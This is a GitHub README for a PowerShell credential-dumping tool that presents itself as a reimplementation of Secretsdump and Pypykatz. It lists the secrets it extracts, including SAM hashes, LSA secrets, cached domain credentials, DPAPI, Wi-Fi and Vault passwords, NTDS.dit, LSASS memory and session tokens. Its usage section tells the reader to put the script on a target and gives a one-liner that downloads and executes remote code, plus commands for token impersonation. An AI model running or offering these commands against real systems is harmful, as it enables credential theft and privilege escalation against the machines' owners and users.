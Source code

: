 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/WindowsSecretsMindMap.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Service account password in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * <del>Chrome cookies/passwords</del> (Removed because It required loading ChilkatDotNet2 and System.Data.SQLite DLLs). Writed into [Get-ChromeSecrets](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Get-ChromeSecrets.ps1>). Dlls are hardcoded into the file<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -Creds <User1>:<Pwd1>:<User2>:<Pwd2>
Get-WindowsSecrets -NTHashes <User>:<NTHash>
Get-WindowsSecrets -Creds <User>:<Pwd> -NTHashes <User1>:<NTHash1>/<User2>:<NTHash2>
Get-WindowsSecrets -SkipDPAPI $True
Get-WindowsSecrets
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -ImpersonateMethod ImpersonateLoggedOnUser
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -ImpersonateMethod CreateProcessWithToken
Get-WindowsSecrets -ImpersonateTokenProcID <ProcID> -ImpersonateMethod CreateProcessAsUser -ImpersonateIsSystem "True"/"False" -ImpersonateConnectTokenPipe "True"/"False"
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
